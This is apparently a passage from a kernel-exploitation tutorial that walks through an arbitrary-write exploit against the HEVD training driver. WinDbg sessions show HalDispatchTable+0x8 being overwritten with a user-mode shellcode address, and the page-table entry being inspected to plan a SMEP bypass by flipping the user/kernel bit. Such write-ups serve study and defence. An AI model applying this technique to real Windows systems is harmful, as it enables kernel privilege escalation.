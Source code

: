 ```WinDbg
fffff801`107c7300 cc              int     3
```

![](imgs/blog/2SmepBypass/20250420021937.png)

As we can see, our shellcode address is written without issue and we can even reach it. The only problem is that due to `SMEP`, we can’t execute UM code in kernel context.

Let’s inspect the page permissions where the UM shellcode is located:
```WinDbg
2: kd> bp nt!KeQueryIntervalProfile
2: kd> bp HEVD!TriggerArbitraryWrite
2: kd> bp HEVD!TriggerArbitraryWrite+0xe3
2: kd> g
Breakpoint 1 hit
HEVD!TriggerArbitraryWrite:
fffff800`46d25e74 488bc4          mov     rax,rsp
5: kd> u ntkrnlmp!HalDispatchTable+0x8 L2
nt!HalDispatchTable+0x8:
fffff800`9c1907d8 90              nop
fffff800`9c1907d9 10e6            adc     dh,ah
5: kd> dq ntkrnlmp!HalDispatchTable+0x8 L2
fffff800`9c1907d8  fffff800`9be61090 fffff800`9be66d20
5: kd> g
Breakpoint 2 hit
HEVD!TriggerArbitraryWrite+0xe3:
fffff800`46d25f57 415e            pop     r14
5: kd> dq ntkrnlmp!HalDispatchTable+0x8 L2
fffff800`9c1907d8  000000af`fe950000 fffff800`9be66d20
5: kd> !pte 000000af`fe950000
                                           VA 000000affe950000
PXE at FFFFF6FB7DBED008    PPE at FFFFF6FB7DA015F8    PDE at FFFFF6FB402BFFA0    PTE at FFFFF68057FF4A80
contains 014000013363D867  contains 015000015273E867  contains 01C0000152345867  contains 2840000133CDC867
pfn 13363d    ---DA--UWEV  pfn 15273e    ---DA--UWEV  pfn 152345    ---DA--UWEV  pfn 133cdc    ---DA--UWEV
```
As we can see, it's a UM page. However, if we manage to flip the UM bit to make it look like a KM page, we can bypass this mitigation.
